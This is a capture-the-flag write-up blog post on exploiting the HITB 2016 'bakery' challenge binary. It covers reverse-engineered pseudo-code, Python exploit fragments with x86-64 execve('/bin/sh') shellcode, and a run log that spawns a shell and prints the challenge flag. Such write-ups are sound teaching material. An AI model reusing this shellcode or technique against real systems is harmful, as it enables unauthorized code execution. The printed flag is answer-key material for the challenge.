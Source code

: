 ```yaml
---
layout: post
title: HITB 2016 - Backery write-up
author: hugsy
tags: exploit hitb
---
```


I participated to [HITB Teaser CTF](https://ctf.0ops.net/) only to have a bit of
fun with there pwnable challenge(s) which I find usually fun and
instructive. The teaser only offered one pwnable challenge, named `bakery`.


### Info ###

The vulnerable file is [here](http://s000.tinyupload.com/?file_id=02989717986988330189)

{% highlight bash %}
gef➤  !file ./bakery.910abf341053d25831ecb465b7ddf738
./bakery.910abf341053d25831ecb465b7ddf738: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=74fa32ca74594550d59ff5fb64b8dd523965cdfc, stripped
gef➤  checksec ./bakery.910abf341053d25831ecb465b7ddf738
[+] checksec for './bakery.910abf341053d25831ecb465b7ddf738'
Canary:                                           Yes
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
{% endhighlight %}

It is a baking program, that allows to build your own recipe.

<!-- more -->

### Vulnerability ###

After printing the available ingredients, the `main` function does this (at
0x0400CBC)
![](https://i.imgur.com/yrFucNx.png)

Which translates to the pseudo-code:
{% highlight c %}
buf = mmap(NULL, 0x1000, RWX, flags, ...);
memset(buf, '\xc3', 0x1000);
srand( time(NULL) );
randint = rand() * 0x1337;
printf("0v3n w4rm3d up to %d d3greez! (d4mn h0t!)\n", randint);
{% endhighlight %}

Then it enters a loop to add the ingredients:
{% highlight c %}
printf("Add ingredient");
fgets(ingredient, 127, stdin);
ingredient[ strlen(ingredient)-1 ] = '\x00';
strncmp(ingredient, "BAKE", 4);
{% endhighlight %}

If we enter `BAKE`, it will simply jump to the buffer allocated by `mmap` from
above:
{% highlight asm %}
.text:0000000000400EB8                 mov     rax, [rbp+mmap_buf]
.text:0000000000400EBF                 mov     [rbp+var_108], rax
.text:0000000000400EC6                 mov     rdx, [rbp+mmap_buf]
.text:0000000000400ECD                 mov     rax, [rbp+var_108]
.text:0000000000400ED4                 mov     rdi, rdx
.text:0000000000400ED7                 call    rax
{% endhighlight %}

Otherwise, it will check using `strstr()` if our ingredient we entered is in the
list of valid ingredients. If the sub-string was found, it calls a function at
0x400B15 with 2 arguments, the string we provided as input for ingredient, and
the random integer generated initially.

The function at 0x400B15 is fairly simply and could be translate to pseudo-code
like this:
{% highlight c %}
int func_400B15(char* input, int init)
{
  int accu;
  int i;
  accu = init;
  for( i=0; i<strlen(input); i++ ) accu += input[i];
  return accu;
}
{% endhighlight %}

The result is then `and`-ed to 0xff and written at current location in the mmap
allocated buffer
{% highlight asm %}
.text:0000000000400E77                 mov     rax, [rbp+p_mmap_buf]
.text:0000000000400E7E                 movzx   edx, [rbp+result]
.text:0000000000400E85                 mov     [rax], dl
.text:0000000000400E87                 add     [rbp+p_mmap_buf], 1
{% endhighlight %}
The pointer to the `mmap` buffer is incremented.


So what this program is doing, is using the "accumulator" function to write
inside the `mmap` buffer, which will then be jumped into and executed.


### Exploitation ###

Getting the initial random integer can be done by reading from the socket until
reahcing the string `0v3n w4rm3d up to` and divide this value by 0x1337.
{% highlight python %}
    # get the init rand()
    parts = s.read_until("\n").split()
    temp = int(parts[5])
    ok("Got temp=%d" % temp)
    rand = temp / 0x1337
    ok("Got rand=%d" % rand)
{% endhighlight %}

To reliably control the content of the mmaped buffer, we need to "compensate"
the accumulation that the function is doing. Since we know the initial random
integer, my approach was to use one of the valid ingredients (in this case
`FLOUR`) which is required to pass the `strstr()` check, sum up the ascii values
of the letters of the word, and add the random init.
{% highlight python %}
def write_char_in_memory(sock, char, init):
    sock.read_until("add ingredient> ")
    [...]
    base = init + sum( [ord(x) for x in 'FLOUR'] )
{% endhighlight %}

If the value does not finish by a NULL, I calculate what is the closest upper
bound to be aligned with 0, and substract the result with my value:
{% highlight python %}
def find_closest_upper_bound(x):
    a = x >> 8
    a+= 1
    return a << 8

[...]
    top = base
    if base & 0xff != 0x00:
        top = find_closest_upper_bound(base)
    diff = top-base
{% endhighlight %}

This gives me in the `diff` variable what needs to be added to the stub `randint
+ 'F' + 'L' + 'O' + 'U' + 'R'`. We can then padding this stub by appending to
this stuff `diff` times `\x01`. This way we fully control the last byte, so we
can append the character we actually want written in memory.


Now that we can write reliably one character at a time, we can copy our
shellcode:
{% highlight python %}
        sc = "\x48\x31\xd2"                                  # xor rdx, rdx
        sc+= "\x48\x31\xc0"                                  # xor rax, rax
        sc+= "\x48\x31\xf6"                                  # xor rsi, rsi
        sc+= "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      # mov rbx, 0x68732f6e69622f2f
        sc+= "\x48\xc1\xeb\x08"                              # shr rbx, 0x8
        sc+= "\x53"                                          # push rbx
        sc+= "\x48\x89\xe7"                                  # mov rdi, rsp
        sc+= "\xc6\xc0\x3b"                                  # mov al, 59
        sc+= "\x0f\x05"                                      # syscall

        for c in sc:
            write_char_in_memory(s, c, rand & 0xff)
{% endhighlight %}

And to execute it, the only thing left is to start baking!
{% highlight python %}
        s.read_until("add ingredient> ")
        s.write("BAKE" + '\n' )
{% endhighlight %}

Let's go:
{% highlight bash %}
$  py gef-exploit.py
[+] Connected to 52.17.31.229:31337
Attach with GDB and hit Enter
[+] Got banner
[+] Got temp=654227
[+] Got rand=133
[*] Writing char=H rand=133
[*] Using top=768, base=525
[*] Sending ''FLOURAAA\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01H''
[*] Writing char=1 rand=133
[*] Using top=768, base=525
[...]
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
python -c "import pty;pty.spawn('/bin/bash')"
bakery@ip-172-31-31-97:/$ cd home/bakery
cd home/bakery
bakery@ip-172-31-31-97:/home/bakery$ ls
ls
YOU_WANT_THIS_ONE  bakery
bakery@ip-172-31-31-97:/home/bakery$ cat YOU_WANT_THIS_ONE
cat YOU_WANT_THIS_ONE
You win! The flag is HITB{24d467d954cc08efbfa6acd8341e55d7}
bakery@ip-172-31-31-97:/home/bakery$
{% endhighlight %}

Fun challenge, thanks to the whole HITB crew for their continuous inventivity.

And as usual, the full exploit can be found
[here](https://gist.github.com/hugsy/06ff00997c9d07099f27).
